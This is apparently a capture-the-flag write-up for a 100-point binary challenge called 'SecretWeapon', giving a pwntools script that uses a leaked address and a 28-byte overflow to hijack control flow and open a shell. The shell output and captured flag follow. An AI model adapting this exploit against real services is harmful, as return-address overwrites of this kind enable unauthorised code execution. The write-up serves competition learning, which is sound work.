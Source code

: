 ## SecretWeapon (100 points)

#### Solved by nhanlun

```
The war is comming!!! Could you have me to get the weapons

nc 61.28.237.24 30201

author: pakkunandy
```

```py
from pwn import *

conn = remote('61.28.237.24', 30201)
conn.recvline()
line = conn.recvline().decode().replace('Your current location is townsquare with the address ', '')

address = int(line, 16)
log.info('Leaked: ' + hex(address))

conn.sendline(b'A' * 28 + p32(0x112d6 - 0x112ff + address))
conn.interactive()
```

```
$ ls
bin
dev
flag.txt
lib
lib32
lib64
weapon
$ cat flag.txt
HCMUS-CTF{you_know_how_to_compute_location}
```

**Flag:** `HCMUS-CTF{you_know_how_to_compute_location}`
